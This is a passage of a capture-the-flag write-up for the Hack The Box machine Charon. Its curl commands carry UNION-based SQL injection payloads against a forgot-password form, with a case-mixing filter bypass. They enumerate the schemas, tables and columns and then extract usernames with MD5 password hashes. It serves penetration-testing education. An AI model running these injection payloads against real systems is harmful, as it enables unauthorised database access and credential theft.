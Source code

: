 To bypass it, it is needed to mix uppercase and lowercase letters
```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,2,3,4-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Incorrect format  
```

To fix the incorrect format error an email has to be placed in one of the tags from the union select injection, in this case is in the 4th one 

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,2,3,\"x@charon.htb\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>2    
```

#### retrieving databases

proceeding with the injections I begin by retrieving the databases, in this case to reflect the injection it was needed to place a group_concat(schema_name) in the second tag from the union injection, group_concat will group all the output in one line.

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(schema_name),3,\"x@charon.htb\" from information_schema.schemata-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>information_schema,supercms  
```

#### retrieving tables

retrieving the tables from the database

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(table_name),3,\"x@charon.htb\" from information_schema.tables where table_schema=\"supercms\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>groups,license,operators
```

#### retrieving columns 

retrieving the columns from the tables of the database

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(column_name),3,\"x@charon.htb\" from information_schema.columns where table_schema=\"supercms\" and table_name=\"operators\"-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: x@charon.htb=>id,__username_,__password_,email 
```

#### retrieving data
retrieve all data from the columns where the email is not "test", resulting tin the retrieval of md5 hashed passwords

```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' Union select 1,group_concat(__username_,0x3a,__password_,0x3a,email),3,\"x@charon.htb\" from operators where email not like '%test%'-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}' | tr "," "\n"
 Email sent to: x@charon.htb=>super_cms_adm:0b0689ba94f94533400f4decd87fa260:adm@nowhere.com
decoder:5f4dcc3b5aa765d61d8327deb882cf99:decoder@nowhere.com
```
